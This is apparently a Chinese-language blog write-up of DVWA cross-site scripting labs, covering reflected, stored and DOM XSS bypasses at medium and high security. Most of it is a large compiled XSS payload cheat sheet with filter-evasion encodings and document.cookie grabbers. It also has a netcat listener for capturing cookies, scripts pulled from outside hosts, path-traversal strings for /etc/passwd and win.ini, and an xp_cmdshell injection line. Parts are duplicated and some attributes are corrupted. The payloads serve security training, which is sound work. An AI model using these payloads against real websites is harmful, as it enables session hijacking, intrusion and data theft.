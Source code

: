 http://192.168.56.1/DVWA/vulnerabilities/xss_d/?default=English<script>alert(%27提交成功！%27);location.href=%27https://www.jianshu.com/p/757626cec742%27;"%20response.end</script>


关于autofocus的属性
：autofocus 属性是一个布尔属性。
autofocus 属性规定当页面加载时 <input> 元素应该自动获得焦点。
焦点的意思就是被选中，和文本框相似，

<button type="button" autofocus="autofocus">

点击这里</button>当页面加载完成之后，这个按钮会被选中
autofocus 属性是一个布尔属性。
autofocus 属性规定当页面加载时 <input> 元素应该自动获得焦点。
1 2 3 4
<!-- These all work! --> <input autofocus="autofocus" /> <button autofocus="autofocus">Hi!</button> <textarea autofocus="autofocus"></textarea>
当有了autofocus属性，这些 INPUT, TEXTAREA, 或 BUTTON元素都能在页面加载是被选中。但如果使用纯显示元素，例如H1标记，autofocus属性并不好用。
这个属性在某些情况下非常有用。例如谷歌的首页，人们99%的时间都是用它来搜索，所以页面一旦加载，光标必然定位在输入框里。以前需要使用JavaScript才能完成，现在完全不需要了，html自己就能完成。


在html中 onfocus事件表示   事件在对象获得焦点时发生。

https://www.runoob.com/try/try.php?filename=tryjsref_onfocus
1.反射型XSS漏洞

在medium中 对代码进行了过滤，可以直接用双写 绕过！
输入

<sc<script>ript>alert(/xss/)</script>


，成功弹框：
相应的 XSS 链接：
http://<IP地址!!!>/dvwa/vulnerabilities/xss_r/?name=%3Csc%3Cscript%3Eript%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E#
其中使用url翻译：http://tool.chinaz.com/tools/urlencode.aspx

也可以通过大小写混淆写通过：
输入<ScRipt>alert(/xss/)</script>，<ScRipt>alert(/网安2019/)</script>成功弹框：网安2019国庆70周年网络安全保障行动
<ScRipt>alert(/网安2019国庆70周年网络安全保障行动/)</script>
<ScRipt>alert(/wangan2019guoqing?70zhounianwangluoanquanbaozhangxingdongL?/)</script>
相应的 XSS 链接（转码为url）：http://<IP地址!!!>/dvwa/vulnerabilities/xss_r/?name=%3CScRipt%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E#


但是在high中

过滤了很多代码，使得<script> 注入XSS代码无法使用。只能通过 其他方法
具体见上文

<input onfocus="alert('xss');" autofocus>


2.存储型XSS漏洞
对输入并没有做 XSS 方面的过滤与检查，且存储在数据库中，因此这里存在明显的存储型 XSS 漏洞




medium：

所以可以直接使用双写，大小写混写等直接绕过！
很垃圾：
双写绕过
直接修改前端代码改 name 参数为 
```

<sc<script>ript>alert(/xss/)</script>
```
 ,成功弹框
大小写混淆绕过
直接修改前端代码改 name 参数为

```
 <Script>alert(/xss/)</script> ,
 ```
 成功弹框


利用top
```html
<script>top["al"+"ert"](`xss`);</script>
```



high的代码很有效的过滤了所有  script的标签，但是，他旺旺没想到，魔高一尺道高一丈，你大爷永远是你大爷：

可以看到，这里使用正则表达式过滤了 <script> 标签，但是却忽略了 img、iframe 等其它危险的标签，因此 name 参数依旧存在存储型 XSS。
漏洞利用
直接修改前端代码改 name 参数为 

```
<img src=1 onerror=alert(网安2019)> ,
```

成功弹框

3.DOM型xss漏洞
DOM型XSS其实是一种特殊类型的反射型XSS，它是基于DOM文档对象模型的一种漏洞。


当页面到达浏览器时浏览器会为页面创建一个顶级的Document object文档对象，接着生成各个子文档对象，每个页面元素对应一个文档对象，每个文档对象包含属性、方法和事件。可以通过JS脚本对文档对象进行编辑从而修改页面的元素。也就是说，客户端的脚本程序可以通过DOM来动态修改页面内容，从客户端获取DOM中的数据并在本地执行。基于这个特性，就可以利用JS脚本来实现XSS漏洞的利用。
利用创建元素createElement()：
以DVWA反射型XSS为例，先在Kali监听1234端口：
nc -nvlp 1234

意在截取1234端口的cookie值。


XSS注入常用语句（整理）

```html

首先输入

```
< > ' " = : ; 
```
查看这些东西有什么是被过滤了的符号或者替换了
```

**Ascii码绕过**
<img src="a" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">

**hex绕过**

<img src=a onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>

**八进制**

<img src=a onerror=alert('\170\163\163')>

**base64绕过**
<img src="a" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">

<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

```

alert（document.domain）" location 。href = " javascript：alert（document.domain）"

"onclick=alert(1)"

<script>alert('xss');</script> //经典语句，哈哈！

>"'><img src="javascript:alert('XSS')">

'><a hret="javascript:alert(1)">

'><a hret="javascr&#x69pt:alert(1)">

>"'><script>alert('XSS')</script>

<table background='javascript.:alert(([code])'></table>

<object type=text/html data='javascript.:alert(([code]);'></object>

"+alert('XSS')+"

'><script>alert(document.cookie)</script>

='><script>alert(document.cookie)</script>

<script>alert(document.cookie)</script>

<script>alert(vulnerable)</script>

<s&#99;ript>alert('XSS')</script>

<img src="javas&#99;ript:alert('XSS')">

%0a%0a<script>alert(\"Vulnerable\")</script>.jsp

%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e

%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e

%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html

<script>alert('Vulnerable')</script>

a.jsp/<script>alert('Vulnerable')</script>

"><script>alert('Vulnerable')</script>

<IMG SRC="javascript.:alert('XSS');">

<IMG src="/javascript.:alert"('XSS')>

<IMG src="/JaVaScRiPt.:alert"('XSS')>

<IMG src="/JaVaScRiPt.:alert"(&quot;XSS&quot;)>

<IMG SRC="jav&#x09;ascript.:alert('XSS');">

<IMG SRC="jav&#x0A;ascript.:alert('XSS');">

<IMG SRC="jav&#x0D;ascript.:alert('XSS');">

"<IMG src="/java"\0script.:alert(\"XSS\")>";'>out

<IMG SRC=" javascript.:alert('XSS');">

<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>

<BODY BACKGROUND="javascript.:alert('XSS')">

<BODY ONLOAD=alert('XSS')>

<IMG DYNSRC="javascript.:alert('XSS')">

<IMG LOWSRC="javascript.:alert('XSS')">

<BGSOUND SRC="javascript.:alert('XSS');">

<br size="&{alert('XSS')}">

<LAYER SRC="http://xss.ha.ckers.org/a.js"></layer>

<LINK REL="stylesheet"HREF="javascript.:alert('XSS');">

<IMG SRC='vbscript.:msgbox("XSS")'>

<META. HTTP-EQUIV="refresh"CONTENT="0;url=javascript.:alert('XSS');">

<IFRAME. src="/javascript.:alert"('XSS')></IFRAME>

<FRAMESET><FRAME. src="/javascript.:alert"('XSS')></FRAME></FRAMESET>

<TABLE BACKGROUND="javascript.:alert('XSS')">

<DIV STYLE="background-image: url(javascript.:alert('XSS'))">

<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html&#39;);">

<DIV STYLE="width: expression(alert('XSS'));">

<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

<IMG STYLE='xss:expre\ssion(alert("XSS"))'>

<STYLE. TYPE="text/javascript">alert('XSS');</STYLE>

<STYLE. TYPE="text/css">.XSS{background-image:url("javascript.:alert('XSS')");}</STYLE><A CLASS=XSS></A>

<STYLE. type="text/css">BODY{background:url("javascript.:alert('XSS')")}</STYLE>

<BASE HREF="javascript.:alert('XSS');//">

getURL("javascript.:alert('XSS')")

a="get";b="URL";c="javascript.:";d="alert('XSS');";eval(a+b+c+d);

<XML SRC="javascript.:alert('XSS');">

"> <BODY NLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"

<SCRIPT. SRC="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>

<IMG SRC="javascript.:alert('XSS')"

<SCRIPT. a=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT.=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT. a=">"''SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT."a='>'"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT>document.write("<SCRI");</SCRIPT>PTSRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<A HREF=http://www.gohttp://www.google.com/ogle.com/>link</A>
```
'"()&%<acx><ScRiPt >prompt(915149)</ScRiPt>
 
<svg/οnlοad=alert(1)>
 
<script>alert(document.cookie)</script>
 
'><script>alert(document.cookie)</script>
 
='><script>alert(document.cookie)</script>
 
<script>alert(vulnerable)</script>
 
%3Cscript%3Ealert('XSS')%3C/script%3E
 
<script>alert('XSS')</script>
 
<img src="javascript:alert('XSS')">
 
%0a%0a<script>alert(\"Vulnerable\")</script>.jsp
 
%22%3cscript%3ealert(%22xss%22)%3c/script%3e
 
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
 
%2E%2E/%2E%2E/%2E%2E/%2E%2E/%2E%2E/windows/win.ini
 
%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
 
%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
 
%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html
 
<script>alert('Vulnerable');</script>
 
<script>alert('Vulnerable')</script>
 
a.jsp/<script>alert('Vulnerable')</script>
 
a?<script>alert('Vulnerable')</script>
 
"><script>alert('Vulnerable')</script>
 
';exec%20master..xp_cmdshell%20'dir%20 c:%20>%20c:\inetpub\wwwroot\?.txt'--&&
 
%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E
 
%3Cscript%3Ealert(document. domain);%3C/script%3E&
 
%3Cscript%3Ealert(document.domain);%3C/script%3E&SESSION_ID={SESSION_ID}&SESSION_ID=
 
<IMG src="javascript:alert('XSS');">
 
<IMG src=javascript:alert('XSS')>
 
<IMG src=JaVaScRiPt:alert('XSS')>
 
<IMG src=JaVaScRiPt:alert("XSS")>
 
<IMG src=javascript:alert('XSS')>
 
<IMG src=javascript:alert('XSS')>
 
<IMG src=javascript:alert('XSS')>
 
<IMG src="jav ascript:alert('XSS');">
 
<IMG src="jav ascript:alert('XSS');">
 
<IMG src="jav ascript:alert('XSS');">
 
"<IMG src=java\0script:alert(\"XSS\")>";' > out
 
<IMG src=" javascript:alert('XSS');">
 
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
 
<BODY BACKGROUND="javascript:alert('XSS')">
 
<BODY ONLOAD=alert('XSS')>
 
<IMG DYNSRC="javascript:alert('XSS')">
 
<IMG LOWSRC="javascript:alert('XSS')">
 
<BGSOUND src="javascript:alert('XSS');">
 
<br size="&{alert('XSS')}">
 
<LAYER src="http://xss.ha.ckers.org/a.js"></layer>
 
<LINK REL="stylesheet" href="javascript:alert('XSS');">
 
<IMG src='vbscript:msgbox("XSS")'>
 
<IMG src="mocha:[code]">
 
<IMG src="livescript:[code]">
 
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
 
<IFRAME src=javascript:alert('XSS')></IFRAME>
 
<FRAMESET><FRAME src=javascript:alert('XSS')></FRAME></FRAMESET>
 
<TABLE BACKGROUND="javascript:alert('XSS')">
 
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
 
<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html');">
 
<DIV STYLE="width: expression(alert('XSS'));">
 
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
 
<IMG STYLE='xss:expre\ssion(alert("XSS"))'>
 
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
 
<STYLE TYPE="text/css">.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A class="XSS"></A>
 
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
 
<BASE href="javascript:alert('XSS');//">
 
getURL("javascript:alert('XSS')")
 
a="get";b="URL";c="javascript:";d="alert('XSS');";eval(a+b+c+d);
 
<XML src="javascript:alert('XSS');">
 
"> <BODY><SCRIPT>function a(){alert('XSS');}</SCRIPT><"
 
<SCRIPT src="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>
 
<IMG src="javascript:alert('XSS')"
```

<!--#exec cmd="/bin/echo '<SCRIPT SRC'"--><!--#exec cmd="/bin/echo
'=http://xss.ha.ckers.org/a.js></SCRIPT>'"-->
```

<IMG src="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
 
<SCRIPT a=">" src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<SCRIPT =">" src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<SCRIPT a=">" '' src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<SCRIPT "a='>'" src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<SCRIPT>document.write("<SCRI");</SCRIPT>PT src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<A href=http://www.gohttp://www.google.com/ogle.com/>link</A>
 
<IMG SRC=javascript:alert(‘XSS’)>
 
<IMG SRC=# οnmοuseοver=”alert(‘xxs’)”>
 
<IMG SRC=/ οnerrοr=”alert(String.fromCharCode(88,83,83))”></img>
 
<img src=x οnerrοr=”&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041″>
 
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
 
&#39;&#88;&#83;&#83;&#39;&#41;>
 
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
 
<IMG SRC=”jav ascript:alert(‘XSS’);”>
 
<IMG SRC=”jav&#x0A;ascript:alert(‘XSS’);”>
 
<IMG SRC=” &#14;  javascript:alert(‘XSS’);”>
 
<<SCRIPT>alert(“XSS”);//<</SCRIPT>
 
<IMG SRC=”javascript:alert(‘XSS’)”
 
</script><script>alert(‘XSS’);</script>
 
<INPUT TYPE=”IMAGE” SRC=”javascript:alert(‘XSS’);”>
 
<BODY BACKGROUND=”javascript:alert(‘XSS’)”>
 
<svg/οnlοad=alert('XSS')>
 
<IMG SRC=’vbscript:msgbox(“XSS”)’>
 
<BGSOUND SRC="javascript:alert('XSS');">
 
<BR SIZE="&{alert('XSS')}">
 
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
 
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
 
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
 
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
 
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
 
<XSS STYLE="behavior: url(xss.htc);">
 
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
 
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
 
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
 
<DIV STYLE="width: expression(alert('XSS'));">
 
<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>

**绕waf**




